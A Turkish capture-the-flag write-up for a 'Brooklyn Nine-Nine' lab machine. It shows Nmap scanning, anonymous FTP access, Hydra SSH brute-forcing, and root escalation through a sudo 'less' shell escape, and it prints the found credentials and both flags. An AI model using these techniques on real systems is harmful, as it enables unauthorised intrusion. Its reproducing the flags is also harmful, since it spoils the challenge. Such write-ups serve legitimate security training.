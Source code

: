 # Brooklyn Nine-Nine CTF Çözümü

## 1.Adım Ping Taraması
Öncelikle hedef makinenin erişilebilir olup olmadığını kontrol etmek için bir ping taraması yaptım:

```bash
ping Machine_IP
```
## 2.Adım Nmap Taraması
Ardından, açık portları ve servisleri belirlemek için bir Nmap taraması gerçekleştirdim:
```bash
nmap --top-ports 20 -sV Machine_IP
```
Nmap tarama sonuçları:
```bash
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-22 15:20 EDT
Nmap scan report for 10.10.162.46
Host is up (0.11s latency).
Not shown: 997 closed tcp ports (reset)
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
80/tcp   open  http
```
## 3.Adım FTP Anonymous Girişi
FTP servisinde anonim giriş açığı olup olmadığını test ettim:
```bash
ftp Machine_IP
Name (Machine_IP:kali): anonymous
Password: [boş bırakın]
```
Başarıyla giriş yapıldı. Dosyaları listeledim ve note_to_jake.txt dosyasını indirdim:
```bash
ftp> ls
ftp> get note_to_jake.txt
```
## 4.Adım SSH Giriş Bruteforce
note_to_jake.txt dosyasından amy, jake ve holt isimleri ile bir usernames.txt dosyası oluşturdum. Ardından Hydra kullanarak SSH girişini brute-force ile denedim:
```bash
hydra -L usernames.txt -P /usr/share/wordlists/SecLists/Passwords/darkweb2017-top100.txt ssh://Machine_IP -t 20
```
Geçerli kimlik bilgilerini buldum:
```bash
Host: Machine_IP
Kullanıcı Adı: jake
Şifre: 987654321
```
## 5.Adım SSH Bağlantısı
Bulduğum kimlik bilgilerini kullanarak SSH üzerinden makineye bağlandım:
```bash
ssh jake@Machine_IP
```
## 6.Adım Dizin Keşfi
jake, amy ve holt dizinlerini keşfettim:
```bash
jake@brookly_nine_nine:~$ cd ..
jake@brookly_nine_nine:/home$ ls
amy  holt  jake
jake@brookly_nine_nine:/home$ cd amy
jake@brookly_nine_nine:/home/amy$ ls
jake@brookly_nine_nine:/home/amy$ cd ..
jake@brookly_nine_nine:/home$ cd holt
jake@brookly_nine_nine:/home/holt$ ls
nano.save  user.txt
jake@brookly_nine_nine:/home/holt$ cat user.txt
```
Kullanıcı bayrağını elde ettim:
```bash
ee11cbb19052e40b07aac0ca060c23ee
```
## 7.Adım Yetki Yükseltme
Sudo yetkilerini kontrol ettim:
```bash
sudo -l
```
Şifresiz less komutunu sudo ile çalıştırma iznim vardı:
```bash
User jake may run the following commands on brookly_nine_nine:
    (ALL) NOPASSWD: /usr/bin/less
```
Bunu root yetkisi kazanmak için /etc/profile dosyasını düzenleyerek kullandım:
```bash
sudo less /etc/profile
```
Dosyanın en altına şunu ekledim:
```bash
!/bin/bash
```
## 8.Adım  Root Yetkisi ve Bayrak Elde Etme
Root yetkisini kazandıktan sonra root bayrağını elde ettim:
```bash
cat /root/root.txt
```
Root bayrağı:
```bash
63a9f0ea7bb98050796b649e85481845
```
